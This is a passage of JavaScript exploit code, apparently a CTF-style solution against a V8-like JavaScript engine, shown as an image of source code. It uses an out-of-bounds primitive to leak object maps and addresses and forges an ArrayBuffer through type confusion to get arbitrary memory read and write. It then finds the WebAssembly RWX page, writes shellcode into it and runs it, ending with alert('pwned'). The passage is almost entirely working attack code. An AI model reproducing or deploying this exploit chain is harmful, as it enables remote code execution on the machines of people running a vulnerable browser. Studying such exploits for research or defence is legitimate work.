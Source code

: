 ```html
    b = b.slice(0);
    c = c.slice(0);
    
    map_unbox = d2u(a.oob());
    map_box = [map_unbox[0] + 160, map_unbox[1]];
    print("unboxed map : " + hex(map_unbox[0], map_unbox[1]));
    print("boxed map : " + hex(map_box[0], map_box[1]));
    
    b.oob(u2d(map_unbox[0], map_unbox[1]));
    
    string_addr = d2u(b[3]);
    print("string addr : " + hex(string_addr[0], string_addr[1]));
    
    let wasm_addr = d2u(b[1]);
    print("wasm : " + hex(wasm_addr[0], wasm_addr[1]));
    
    fake_arraybuffer[4] = u2d(wasm_addr[0] - 1, wasm_addr[1]);
    
    let fake_arraybuffer_addr = d2u(b[0]);
    print("fake arraybuffer : " + hex(fake_arraybuffer_addr[0] - 0x80, fake_arraybuffer_addr[1]));
    print("fake arraybuffer map : " + hex(fake_arraybuffer_addr[0] - 0x40, fake_arraybuffer_addr[1]));
    
    fake_arraybuffer[0] = u2d(fake_arraybuffer_addr[0] - 0x40, fake_arraybuffer_addr[1]);
    
    // make fake !!
    let type_confusion = [u2d(fake_arraybuffer_addr[0] - 0x80 + 0x40, fake_arraybuffer_addr[1]), av, av, av, av, av].slice(0);
    type_confusion.oob(u2d(map_box[0], map_box[1]));
    let dv = new DataView(type_confusion[0]);
    
    let lo = dv.getUint32(0x18, true);
    let hi = dv.getUint32(0x18 + 4, true);
    print("fucntion obj : " + hex(lo, hi));
    
    
    // for my local
    //fake_arraybuffer[4] = u2d(lo - 1 - 312, hi);
    
    for(let i = 0; i < 100; i++) {
        fake_arraybuffer[4] = u2d(lo - 1 - 0x180 + (i * 8), hi);
        _lo = dv.getUint32(0, true);
        _hi = dv.getUint32(4, true);
        if (_hi != 0 && (_lo & 0xfff) == 0) {
            print("find");
            lo = _lo;
            hi = _hi;
            break;
        }
    }
    
    
    fake_arraybuffer[4] = u2d(lo, hi);
    print("rwx page : " + hex(lo, hi));
    
    for(let i = 0; i < shellcode.length; i++) {
        dv.setUint32(i * 4, shellcode[i], true);
    }
    
    // got !
    f(1, 2);
    
    alert("pwned");
```